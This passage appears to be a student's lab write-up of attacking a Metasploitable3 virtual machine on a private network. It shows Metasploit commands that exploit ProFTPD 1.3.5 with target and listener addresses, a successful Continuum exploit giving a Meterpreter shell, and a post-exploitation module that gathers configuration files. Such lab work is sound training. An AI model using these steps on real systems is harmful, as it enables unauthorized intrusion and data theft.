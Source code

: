 ```

Seems to have some intresting stuff, I first try searching ProFTPD with metasploit search

```
search ProFTPD 1.3.5
use 0
set RHOSTS 192.168.56.105
set LHOST 192.168.56.104
run
```


![alt text](imagesh2/image-44.png)

Cant get through, says directory maybe not writeable? 


I decide to move on and try something else

I try similiar approach with the Jetty service, but no luck

![alt text](imagesh2/image-45.png)

After browsing the target http website i came accross some panel hosted on port 8080 and named continuum, i try to access with some basic sql injections, no luck.

![alt text](imagesh2/image-47.png)

I try searching continuum on the metasploit database

![alt text](imagesh2/image-48.png)

Found an exploit, lets try it

![alt text](imagesh2/image-49.png)

And **im in** with meterpreter. after that spent some time roaming around the files, tried some meterpreter modules like 
``` run post/linux/gather/enum_configs ```
and others similiar to this also gathering "loot"

![alt text](imagesh2/image-50.png)

<a name="tools-and-hardware-used"></a>
## 🛠️ Tools and Hardware Used

- Tools: Kali, metasploit, sliver, nmap, chatgpt, virtualbox, meterpreter

- Hardware: AMD 5900X, RTX 3080, 32GB RAM

<a name="resources"></a>
## 📂 Resources

https://www.offsec.com/metasploit-unleashed/using-databases/
db_nmap

https://terokarvinen.com/tunkeutumistestaus/
(karvinen 2024)

https://portal.cloud.hashicorp.com/vagrant/discover/noordev/metasploitable3
(metasploit3 install)

https://medium.com/@rob.mccarthy31/meterpreter-tips-tricks-17877dda10fa
```